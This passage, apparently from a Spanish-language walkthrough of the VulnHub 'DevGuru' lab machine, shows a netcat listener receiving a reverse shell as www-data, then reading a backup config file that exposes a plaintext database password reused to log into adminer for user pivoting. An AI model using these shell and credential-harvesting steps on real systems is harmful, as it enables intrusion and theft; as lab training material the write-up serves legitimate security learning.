![rs3](/assets/img/commons/vulnhub/devguru/rs3.png){: .center-image }
![rs4](/assets/img/commons/vulnhub/devguru/rs4.png){: .center-image }

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.59] 37286
bash: cannot set terminal process group (1079): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devguru:/var/www/html$
```

## User Pivoting

---

Somos `www-data`{: .filepath}, debemos ganar acceso como `frank`{: .filepath}.

Buscando los archivos de backup, encontramos los datos de acceso a `mysql` pero correspondiente a otro usuario.

```bash
www-data@devguru:/var/backups$ cat app.ini.bak

[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
```

Volvemos a ingresar a `adminer`{: .filepath} con estos datos.

![giteasql](/assets/img/commons/vulnhub/devguru/giteasql.png){: .center-image }
